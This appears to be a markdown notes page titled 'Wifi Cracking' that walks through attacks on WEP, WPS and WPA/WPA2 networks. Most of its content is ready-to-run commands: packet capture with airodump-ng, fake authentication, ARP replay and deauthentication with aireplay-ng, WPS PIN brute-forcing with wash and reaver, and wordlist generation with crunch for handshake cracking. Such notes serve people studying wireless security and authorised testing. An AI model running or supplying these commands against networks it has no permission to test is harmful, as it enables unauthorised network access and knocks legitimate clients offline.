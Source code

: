 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay). This is done by:

* wait for an arp packet.
* capture it, and replay it (retransmit it).
* this causes the AP to produce another packet with a new IV.
* keep doing this till you have enough IVs to crack the key.

4. To carry out the attack, after following steps 1 and 2 for the busy wep networks, then;

`-b` denotes the target mac addr, `--arpreplay` for an arp replay attack.

```
aireplay-ng --arpreplay -b 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

Just wait for some time, then after receiving enough  packets in the `#Data` column, you can now run `aircrack-ng` to crack password. Allow the `airodump-ng` utility to continue running while running the `aircrack-ng` utility.



### wps hacking.

`wash --interface wlan0mon` a wps recon tool to search around for wps enabled AP/routers.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p><code>wash</code></p></figcaption></figure>

`aireplay-ng --fakeauth 30 -a targetMacAddr -c wirelessAdapterMacAddr wlan0mon` This creates association with the target network every 30 seconds.

`reaver --bssid targetBssid --channel targetChannel -i wlan0mon -vvv --no-associate` running reaver to carryout bruteforcing.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p><code>reaver</code></p></figcaption></figure>

### wpa / wpa2 hacking

`airodump-ng --bssid 98:A9:42:27:A2:CA --channel 10 --write wpa_handshake wlan0mon` to create a handshake .cap file.&#x20;

`aireplay-ng --deauth 20 -a 98:A9:42:27:A2:CA -c A8:9C:ED:3A:5E:B7 wlan0mon` where `-a` is AP macAddr and `-c` is client macAddr.

<figure><img src="../.gitbook/assets/Screenshot from 2023-03-20 15-52-55 (1).png" alt=""><figcaption><p>captured handshake</p></figcaption></figure>

using the `crunch` utility to create a word list for bruteforcing.

`crunch 6 6 abc123 -o test.txt -t a@@bb` use the man crunch for guides.

